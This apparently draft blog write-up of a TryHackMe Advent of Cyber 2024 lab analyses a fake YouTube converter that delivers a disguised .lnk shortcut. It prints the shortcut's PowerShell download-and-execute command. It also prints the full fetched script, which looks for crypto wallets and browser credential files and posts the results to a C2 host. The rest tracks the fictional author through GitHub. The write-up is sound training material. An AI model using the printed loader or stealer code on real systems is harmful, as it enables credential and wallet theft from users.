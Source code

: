 +++
title = 'Advent of Cyber 2024 - Day 1'
date = 2024-12-02T10:12:29+02:00
draft = true
+++

There is a hosted website that appears to be a converter called "The Glitch's All-in-One Converter".

Enter YouTube URL and press convert. 

Unzipping the download.zip produces two files song.mp3 and somg.mp3. 

`````
# Inspect file type
file somg.mp3 

# Result
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
`````

The somg.mp3 appears to be a MS lnk file - a file type that can be used to launch programs for example. 

````
# Further inspection
exiftool somg.mp3 

# Result
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:02 08:08:57+00:00
File Inode Change Date/Time     : 2024:12:02 08:08:26+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
````

Exiftool exposes the contents of the lnk file. In short it appears to download and run a malicious Powershell script. 

`````
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
`````

The script attempts to steal crypto wallets and credentials stored in Firefox and Chrome browsers and then send that information to a C2 server at http://papash3ll.thm/data. 

Who is the developer? In the malicious script there is a lead that can be searched for: "Created by the one and only M.M". Running the search in DuckDuckGo revelead the GitHub page below:

https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues

````
# The conversation between MM-WarevilleTHM and Bloatware-WarevilleTHM on Oct 30, 2024

# 1
Hey Bloatware,

I came across this pretty cool C++ script of yours and would like to use it for Wareville. My only issue is that I'm not too good with C++ and I don’t really vibe. I’m much more comfortable with PowerShell.

The code does some interesting things, like searching for wallet and browser credential files and sending the findings to a C2 server. I’d love to cross-check my PowerShell version of this, especially since my C++ skills are about as sharp as a butter knife these days.

Appreciate any guidance! Please save me from pointer madness 😅.

# 2
Hey MM, Thanks for the shoutout. Haha, I totally get it! Pointers and memory management can feel like trying to defuse a bomb with a toothpick.

I’m guessing it’s the file searching and C2 communication that’s got you sweating. Share your code, and we'll see what we have.
````

The threat actors' conversation revelead the developer of the script. Further inspection of GitHub points to another project of MM's https://github.com/MM-WarevilleTHM/M.M. 

The threat actor's name is Mayor Malware (lol :D). 